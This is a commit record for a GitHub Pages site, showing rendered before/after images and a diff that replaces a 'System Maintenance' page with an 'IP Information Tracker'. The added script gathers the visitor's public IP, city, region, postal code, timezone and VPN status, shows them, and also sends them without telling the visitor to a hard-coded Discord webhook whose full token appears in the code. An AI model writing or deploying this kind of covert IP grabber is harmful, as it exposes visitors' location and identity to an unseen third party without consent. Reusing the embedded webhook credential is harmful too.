

Before and after one commit to RedFox-Studios/redfox-studios.github.io, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
I dont know

```diff
--- a/index.html
+++ b/index.html
@@ -3,122 +3,117 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>System Maintenance</title>
+    <title>IP Information Tracker</title>
     <script src="https://cdn.tailwindcss.com"></script>
     <script src="https://kit.fontawesome.com/76661d0faf.js" crossorigin="anonymous"></script>
     <link href="https://fonts.googleapis.com/css2?family=Geist:wght@300;400;500;600;700&display=swap" rel="stylesheet">
-    <script>
-        tailwind.config = {
-            theme: {
-                extend: {
-                    fontFamily: {
-                        geist: ['Geist', 'sans-serif'],
-                    },
-                    animation: {
-                        'gradient': 'gradient 8s linear infinite',
-                        'float': 'float 6s ease-in-out infinite',
-                        'pulse-slow': 'pulse 4s cubic-bezier(0.4, 0, 0.6, 1) infinite',
-                    },
-                    keyframes: {
-                        gradient: {
-                            '0%, 100%': {
-                                'background-size': '200% 200%',
-                                'background-position': 'left center'
-                            },
-                            '50%': {
-                                'background-size': '200% 200%',
-                                'background-position': 'right center'
-                            }
-                        },
-                        float: {
-                            '0%, 100%': {
-                                transform: 'translateY(0)',
-                            },
-                            '50%': {
-                                transform: 'translateY(-20px)',
-                            }
-                        }
-                    },
-                },
-            },
-        }
-    </script>
     <style>
-        .gradient-text {
-            background: linear-gradient(to right, #fff, #888, #fff);
-            -webkit-background-clip: text;
-            background-clip: text;
-            color: transparent;
-            background-size: 200% auto;
-            animation: gradient 8s linear infinite;
-        }
-
-        .grid-background {
-            background-image: radial-gradient(circle at 1px 1px, rgba(255, 255, 255, 0.05) 1px, transparent 0);
-            background-size: 40px 40px;
-            background-position: -19px -19px;
+        body {
+            font-family: 'Geist', sans-serif;
         }
     </style>
 </head>
-<body class="bg-black font-geist min-h-screen flex flex-col items-center justify-center p-4 grid-background">
-    <!-- Ambient background effects -->
-    <div class="fixed inset-0 bg-gradient-to-b from-purple-500/5 to-blue-500/5 pointer-events-none"></div>
-
-    <div class="max-w-3xl mx-auto text-center relative z-10">
-        <!-- Main Content -->
-        <div class="mb-12 animate-float">
-            <div class="relative">
-                <div class="absolute inset-0 rounded-full bg-blue-500/20 blur-3xl transform -translate-y-4"></div>
-                <div class="relative bg-zinc-900/80 backdrop-blur-xl rounded-2xl p-8 border border-white/5 shadow-2xl">
-                    <div class="maintenance-icon text-white mb-6">
-                        <i class="fas fa-cog text-6xl animate-spin-slow" style="--tw-spin-duration: 4s;"></i>
-                    </div>
-                    <h1 class="gradient-text text-5xl font-bold mb-6 tracking-tight">
-                        Under Maintenance
-                    </h1>
-                    <p class="text-gray-400 text-lg mb-8 leading-relaxed max-w-xl mx-auto">
-                        We're currently upgrading our systems to bring you an even better experience.
-                        We'll be back online shortly.
-                    </p>
-                </div>
+<body class="bg-gray-900 text-white min-h-screen">
+    <div class="container mx-auto px-4 py-8">
+        <div class="max-w-2xl mx-auto bg-gray-800 rounded-lg shadow-xl p-6">
+            <h1 class="text-3xl font-bold mb-6 text-center">IP Information Tracker</h1>
+            <div id="loading" class="text-center hidden">
+                <i class="fas fa-spinner fa-spin text-2xl"></i>
+                <p class="mt-2">Fetching IP information...</p>
             </div>
-        </div>
-
-        <!-- Status Box -->
-        <div class="bg-zinc-900/80 backdrop-blur rounded-xl p-6 mb-8 inline-block border border-white/5">
-            <div class="flex items-center space-x-3">
-                <div class="relative">
-                    <div class="h-3 w-3 rounded-full bg-yellow-500/20"></div>
-                    <div class="absolute inset-0 h-3 w-3 rounded-full bg-yellow-500 animate-ping"></div>
-                    <div class="absolute inset-0 h-3 w-3 rounded-full bg-yellow-500 animate-pulse"></div>
-                </div>
-                <p class="text-gray-300 text-sm font-medium">
-                    System maintenance in progress
-                </p>
-            </div>
-        </div>
-
-        <!-- Estimated Time -->
-        <div class="bg-zinc-900/80 backdrop-blur rounded-xl p-6 border border-white/5">
-            <div class="flex items-center justify-center space-x-3">
-                <i class="fas fa-clock text-gray-400"></i>
-                <p class="text-gray-300 text-sm font-medium">
-                    Estimated completion time: <span class="text-white">69 hours</span>
-                </p>
-            </div>
+            <div id="info" class="space-y-4"></div>
+            <button onclick="getAndSendIPInfo()" class="mt-6 w-full bg-blue-600 hover:bg-blue-700 text-white font-bold py-2 px-4 rounded transition duration-200">
+                <i class="fas fa-sync-alt mr-2"></i>Fetch IP Info
+            </button>
         </div>
     </div>
 
-    <!-- Footer -->
-    <footer class="fixed bottom-0 w-full p-6 text-center">
-        <div class="bg-zinc-900/80 backdrop-blur-sm rounded-xl py-3 px-6 inline-block border border-white/5">
-            <p class="text-gray-400 text-sm">
-                © 2024 RedFox Studios. All rights reserved.
-            </p>
-        </div>
-    </footer>
+    <script>
+        const DISCORD_WEBHOOK_URL = 'https://discord.com/api/webhooks/1325525927144329317/PCYE5RoiJjlYSwWmmIK50i9xnkzIGtPWLAtq81RwzSrrM-ebs6JAD3amygj-jzjQNQOk'; // Replace with your webhook URL
 
-    <!-- Decorative elements -->
-    <div class="fixed top-0 left-0 w-full h-1 bg-gradient-to-r from-blue-500 to-purple-500 opacity-20"></div>
+        async function fetchIPInfo(ip) {
+            const info = {
+                ip: await fetch('https://api.ipify.org').then(r => r.text()),
+                city: await fetch(`https://ipapi.co/${ip}/city`).then(r => r.text()),
+                region: await fetch(`https://ipapi.co/${ip}/region`).then(r => r.text()),
+                postal: await fetch(`https://ipapi.co/${ip}/postal`).then(r => r.text()),
+                timezone: await fetch(`https://ipapi.co/${ip}/timezone`).then(r => r.text()),
+                currency: await fetch(`https://ipapi.co/${ip}/currency`).then(r => r.text()),
+                country: await fetch(`https://ipapi.co/${ip}/country_name`).then(r => r.text()),
+                callcode: await fetch(`https://ipapi.co/${ip}/country_calling_code`).then(r => r.text())
+            };
+
+            const vpnResponse = await fetch('http://ip-api.com/json?fields=proxy');
+            const vpnData = await vpnResponse.json();
+            info.vpn = vpnData.proxy;
+
+            return info;
+        }
+
+        async function getAndSendIPInfo() {
+            const loading = document.getElementById('loading');
+            const infoDiv = document.getElementById('info');
+
+            loading.classList.remove('hidden');
+            infoDiv.innerHTML = '';
+
+            try {
+                const publicIP = await fetch('https://api.ipify.org').then(r => r.text());
+                const info = await fetchIPInfo(publicIP);
+
+                // Display information
+                const items = [
+                    { icon: 'fa-network-wired', label: 'IP', value: info.ip },
+                    { icon: 'fa-city', label: 'City', value: info.city },
+                    { icon: 'fa-map-marker-alt', label: 'Region', value: info.region },
+                    { icon: 'fa-mailbox', label: 'Postal', value: info.postal },
+                    { icon: 'fa-clock', label: 'Timezone', value: info.timezone },
+                    { icon: 'fa-money-bill', label: 'Currency', value: info.currency },
+                    { icon: 'fa-globe', label: 'Country', value: info.country },
+                    { icon: 'fa-phone', label: 'Call Code', value: info.callcode },
+                    { icon: 'fa-shield-alt', label: 'VPN', value: info.vpn ? 'Yes' : 'No' }
+                ];
+
+                infoDiv.innerHTML = items.map(item => `
+                    <div class="flex items-center space-x-4 p-3 bg-gray-700 rounded">
+                        <i class="fas ${item.icon} w-6"></i>
+                        <span class="font-semibold w-24">${item.label}:</span>
+                        <span class="flex-1">${item.value}</span>
+                    </div>
+                `).join('');
+
+                // Send to Discord
+                const webhookData = {
+                    embeds: [{
+                        title: 'IP Information Report',
+                        color: 3447003,
+                        fields: items.map(item => ({
+                            name: item.label,
+                            value: item.value.toString(),
+                            inline: true
+                        })),
+                        timestamp: new Date().toISOString()
+                    }]
+                };
+
+                await fetch(DISCORD_WEBHOOK_URL, {
+                    method: 'POST',
+                    headers: {
+                        'Content-Type': 'application/json',
+                    },
+                    body: JSON.stringify(webhookData)
+                });
+
+            } catch (error) {
+                infoDiv.innerHTML = `
+                    <div class="bg-red-500 text-white p-4 rounded">
+                        Error: ${error.message}
+                    </div>
+                `;
+            } finally {
+                loading.classList.add('hidden');
+            }
+        }
+    </script>
 </body>
 </html>
```
Also changed, not shown: cursors/README.txt (deleted), 16 other files.
